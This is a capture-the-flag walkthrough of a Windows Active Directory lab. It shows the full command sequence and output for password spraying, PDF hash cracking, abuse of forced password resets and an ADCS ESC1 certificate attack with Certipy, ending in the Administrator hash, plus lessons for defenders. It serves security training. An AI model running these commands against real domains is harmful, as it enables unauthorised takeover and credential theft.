



Welcome
Published: January 2026 | HackSmarter Labs
- Platform: HackSmarter Labs
- Difficulty: Medium
- OS: Windows Server 2022
- Key Topics: Active Directory, BloodHound, ADCS ESC1, Password Spraying, PDF Cracking
Overview
This machine involves compromising a Windows Active Directory environment through a chain of attacks: credential validation, SMB share enumeration, PDF password cracking, password spraying, and ultimately exploiting an ESC1 vulnerable certificate template to obtain Domain Admin privileges.
Reconnaissance
[Step 1] Validating Initial Credentials
I started by validating the provided credentials against LDAP:
$ nxc ldap 10.1.159.7 -u e.hills -p 'Il0vemyj0b2025!'LDAP 10.1.159.7 389 DC01 [*] Windows Server 2022 Build 20348 (name:DC01) (domain:WELCOME.local) (signing:None) (channel binding:Never)
LDAP 10.1.159.7 389 DC01 [+] WELCOME.local\e.hills:Il0vemyj0b2025!The credentials are valid. Next, I generated a hosts file for easier targeting:
$ nxc smb 10.1.159.7 -u e.hills -p 'Il0vemyj0b2025!' --generate-hosts-file host_fileSMB 10.1.159.7 445 DC01 [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:WELCOME.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB 10.1.159.7 445 DC01 [+] WELCOME.local\e.hills:Il0vemyj0b2025!Contents of the generated hosts file:
10.1.159.7 DC01.WELCOME.local WELCOME.local DC01[Step 2] BloodHound Collection
I collected domain data for BloodHound analysis:
$ nxc ldap 10.1.159.7 -u e.hills -p 'Il0vemyj0b2025!' --bloodhound --collection All --dns-server 10.1.159.7LDAP 10.1.159.7 389 DC01 [*] Windows Server 2022 Build 20348 (name:DC01) (domain:WELCOME.local) (signing:None) (channel binding:Never)
LDAP 10.1.159.7 389 DC01 [+] WELCOME.local\e.hills:Il0vemyj0b2025!
LDAP 10.1.159.7 389 DC01 Resolved collection methods: rdp, acl, objectprops, dcom, localadmin, session, adcs, group, psremote, container, trusts
LDAP 10.1.159.7 389 DC01 Done in 0M 27S
LDAP 10.1.159.7 389 DC01 Collecting ADCS data (CertiHound)...
LDAP 10.1.159.7 389 DC01 Found 34 certificate templates
LDAP 10.1.159.7 389 DC01 Found 1 Enterprise CA
LDAP 10.1.159.7 389 DC01 Compressing output into /home/kali/.nxc/logs/DC01_10.1.159.7_2026-01-04_082945_bloodhound.zipAttack Path Analysis
After importing the data into BloodHound, I identified a clear attack path to Domain Admin.
[Step 3] ESC1 Vulnerability on Welcome-Template
BloodHound revealed that SVC_CA has enrollment rights on the Welcome-Template certificate template, which is vulnerable to ESC1.

[Step 4] Pathway to SVC_CA
Examining the inbound object controls on SVC_CA, I discovered that I.PARK has the ForceChangePassword privilege over this account.

I.PARK. Compromising this account will allow me to take over SVC_CA and exploit the ESC1 vulnerability.
Exploitation
[Step 5] SMB Share Enumeration
I enumerated accessible SMB shares with the e.hills account:
$ nxc smb 10.1.159.7 -u e.hills -p 'Il0vemyj0b2025!' --sharesSMB 10.1.159.7 445 DC01 [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:WELCOME.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB 10.1.159.7 445 DC01 [+] WELCOME.local\e.hills:Il0vemyj0b2025!
SMB 10.1.159.7 445 DC01 [*] Enumerated shares
SMB 10.1.159.7 445 DC01 Share Permissions Remark
SMB 10.1.159.7 445 DC01 ----- ----------- ------
SMB 10.1.159.7 445 DC01 ADMIN$ Remote Admin
SMB 10.1.159.7 445 DC01 C$ Default share
SMB 10.1.159.7 445 DC01 Human Resources READ
SMB 10.1.159.7 445 DC01 IPC$ READ Remote IPC
SMB 10.1.159.7 445 DC01 NETLOGON READ Logon server share
SMB 10.1.159.7 445 DC01 SYSVOL READ Logon server shareThe Human Resources share looks interesting. I connected and downloaded all files:
$ smbclient "//10.1.159.7/Human Resources" -U 'e.hills%[REDACTED]'smb: \> dir
. D 0 Sat Sep 13 19:20:17 2025
.. D 0 Sat Sep 13 16:11:19 2025
Welcome 2025 Holiday Schedule.pdf A 84715 Sat Sep 13 18:18:12 2025
Welcome Benefits.pdf A 81466 Sat Sep 13 18:18:12 2025
Welcome Handbook Excerpts.pdf A 82644 Sat Sep 13 18:18:12 2025
Welcome Performance Review Guide.pdf A 79823 Sat Sep 13 18:18:12 2025
Welcome Start Guide.pdf A 89511 Sat Sep 13 18:18:12 2025smb: \> prompt OFF
smb: \> mget *[Step 6] Cracking the Password-Protected PDF
I noticed one of the PDFs was password-protected:
$ qpdf --show-encryption "Welcome Start Guide.pdf"Incorrect password supplied
R = 4
P = -1060
User password =
extract for accessibility: allowed
extract for any purpose: allowed
print low resolution: allowed
print high resolution: allowed
modify document assembly: not allowed
modify forms: allowed
modify annotations: not allowed
modify other: allowed
modify anything: not allowed
stream encryption method: AESv2
string encryption method: AESv2
file encryption method: AESv2I extracted the hash and cracked it with John the Ripper:
$ pdf2john "Welcome Start Guide.pdf" > pdf_hash
$ john --wordlist=/usr/share/wordlists/rockyou.txt pdf_hashUsing default input encoding: UTF-8
Loaded 1 password hash (PDF [MD5 SHA2 RC4/AES 32/64])
Cost 1 (revision) is 4 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
[REDACTED] (Welcome Start Guide.pdf)
1g 0:00:00:03 DONE (2026-01-04 09:16) 0.2604g/s 241800p/s 241800c/s 241800C/s humphrey06..huitar
Session completed.[REDACTED]
[Step 7] Extracting Credentials from the PDF
Opening the PDF with the cracked password revealed an HR onboarding document containing a default password for new employees:

The document reveals:
- Temporary/default password:
[REDACTED] - New employees should change this password on first login
[Step 8] Password Spraying
I created a list of domain users and sprayed the default password across the network:
$ nxc smb 10.1.159.7 -u users_spray -p '[REDACTED]'
a.harris:[REDACTED]
[Step 9] Exploiting Group Permissions
While a.harris was not the user I was hoping for (I wanted i.park), BloodHound showed that a.harris is a member of the HR group, which has GenericAll privileges over i.park:

[Step 10] Password Chain Attack
Step 1: Using a.harris to change i.park's password:
$ net rpc password "i.park" 'Zerotrace123!' -U "WELCOME.local/a.harris%[REDACTED]" -S "DC01.WELCOME.local"
$ nxc smb 10.1.159.7 -u i.park -p 'Zerotrace123!'SMB 10.1.159.7 445 DC01 [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:WELCOME.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB 10.1.159.7 445 DC01 [+] WELCOME.local\i.park:[REDACTED]Step 2: Using i.park to change SVC_CA's password:
$ net rpc password "SVC_CA" 'Zerotrace123!' -U "WELCOME.local/i.park%[REDACTED]" -S "DC01.WELCOME.local"
$ nxc smb 10.1.159.7 -u SVC_CA -p 'Zerotrace123!'SMB 10.1.159.7 445 DC01 [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:WELCOME.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB 10.1.159.7 445 DC01 [+] WELCOME.local\SVC_CA:[REDACTED]Privilege Escalation - ESC1 Certificate Attack
[Step 11] Requesting Administrator Certificate
With control of SVC_CA, I exploited the ESC1 vulnerability to request a certificate as the Domain Administrator:
$ certipy req -u 'SVC_CA@WELCOME.local' -p '[REDACTED]' -dc-ip 10.1.159.7 -target 'DC01.WELCOME.local' -ca 'WELCOME-CA' -template 'Welcome-Template' -upn 'administrator@WELCOME.local' -debugCertipy v5.0.3 - by Oliver Lyak (ly4k)
[+] DC host (-dc-host) not specified. Using domain as DC host
[+] Nameserver: '10.1.159.7'
[+] DC IP: '10.1.159.7'
[+] DC Host: 'WELCOME.LOCAL'
[+] Target IP: None
[+] Remote Name: 'DC01.WELCOME.local'
[+] Domain: 'WELCOME.LOCAL'
[+] Username: 'SVC_CA'
[+] Trying to resolve 'DC01.WELCOME.local' at '10.1.159.7'
[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Trying to connect to endpoint: ncacn_np:10.1.159.7[\pipe\cert]
[+] Connected to endpoint: ncacn_np:10.1.159.7[\pipe\cert]
[*] Request ID is 21
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator@WELCOME.local'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[+] Attempting to write data to 'administrator.pfx'
[+] Data written to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'[Step 12] Authenticating with the Certificate
Using the obtained certificate to authenticate and retrieve the Administrator's NT hash:
$ certipy auth -pfx administrator.pfx -dc-ip 10.1.159.7Certipy v5.0.3 - by Oliver Lyak (ly4k)
[*] Certificate identities:
[*] SAN UPN: 'administrator@WELCOME.local'
[*] Using principal: 'administrator@welcome.local'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@welcome.local': [REDACTED]:[REDACTED]Proof
| Flag | Hash |
|---|---|
| Administrator NT Hash | [REDACTED] |
Tools Used
- NetExec (nxc) - SMB/LDAP enumeration and authentication testing
- BloodHound - AD attack path analysis
- smbclient - SMB share access
- qpdf - PDF encryption analysis
- pdf2john / John the Ripper - PDF password cracking
- Certipy - ADCS exploitation
Attack Chain Summary
e.hills (initial access)
|
v
SMB Share "Human Resources" --> Password-protected PDF
|
v
PDF Cracking --> Default password "[REDACTED]"
|
v
Password Spray --> a.harris compromised
|
v
GenericAll (HR Group) --> i.park password reset
|
v
ForceChangePassword --> SVC_CA password reset
|
v
ESC1 Certificate Template --> Administrator certificate
|
v
PKINIT Authentication --> Administrator NT hashLessons Learned
For Defenders
- Audit certificate templates: ESC1 vulnerabilities arise from misconfigured templates allowing arbitrary SANs. Disable "Supply in Request" for the SAN field unless absolutely necessary.
- Review AD permissions: GenericAll and ForceChangePassword rights should be tightly controlled and regularly audited using BloodHound.
- Enforce password policies: Default passwords should be randomized per-user. Never use the same temporary password for all new employees.
- Protect sensitive documents: HR documents on file shares should not contain plaintext passwords. Consider secure onboarding portals instead.
For Pentesters
- Always enumerate SMB shares for sensitive documents early in engagements
- PDF password cracking with common wordlists often yields quick wins
- BloodHound ADCS collection reveals certificate-based attack paths that traditional enumeration misses
- Chaining low-privilege permissions (GenericAll -> ForceChangePassword -> ESC1) can lead to full domain compromise
Walkthrough by Zerotrace | HackSmarter Labs